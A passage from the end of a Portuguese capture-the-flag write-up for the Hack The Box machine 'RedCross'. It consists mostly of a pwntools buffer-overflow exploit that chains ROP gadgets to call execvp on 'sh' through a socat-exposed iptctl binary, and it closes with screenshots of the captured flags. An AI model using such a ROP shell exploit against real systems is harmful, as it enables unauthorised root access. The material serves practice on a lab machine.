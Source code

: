```

#execvp("sh", 0)
payload += pop_rdi
payload += sh_str
payload += pop_rsi
payload += p64(0)
payload += p64(0)
payload += execvp

payload += "\n7.8.8.9\n"

log.info("Attempting to connect")
try:
    p = remote("10.10.10.113",9001)
except pwnlib.exception.PwnlibException:
    log.warn("Could not connect to target")
    log.warn('Is socat running on target?')
    log.warn('TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?')
    exit()
p.sendline(payload)
p.interactive()
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_bof20.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_user.png)

Po pessoal, realmente desculpas pelo meu péssimo rendimento no buffer overflow, é algo que eu realmente necessido estudar mais!